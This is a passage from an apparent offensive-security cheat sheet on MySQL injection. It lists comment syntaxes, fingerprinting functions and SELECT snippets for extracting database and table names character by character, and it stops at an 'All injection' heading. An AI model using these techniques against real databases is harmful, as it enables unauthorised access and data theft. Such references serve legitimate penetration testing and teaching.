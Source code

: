 # MySQL injection

## Comments

```sql
-- MYSQL Comment
# MYSQL Comment
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MySQL version 3.23.02
```

## Interesting Functions

### Confirm Mysql:

```
concat('a','b')
database()
version()
user()
system_user()
@@version
@@datadir
rand()
floor(2.9)
length(1)
count(1)
```

### Useful functions

```sql
SELECT hex(database())
SELECT conv(hex(database()),16,10) # Hexadecimal -> Decimal
SELECT DECODE(ENCODE('cleartext', 'PWD'), 'PWD')# Encode() & decpde() returns only numbers
SELECT uncompress(compress(database())) #Compress & uncompress() returns only numbers
SELECT replace(database(),"r","R")
SELECT substr(database(),1,1)='r'
SELECT substring(database(),1,1)=0x72
SELECT ascii(substring(database(),1,1))=114
SELECT database()=char(114,101,120,116,101,115,116,101,114)
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
strcmp(),mid(),,ldap(),rdap(),left(),rigth(),instr(),sleep()
```

## All injection
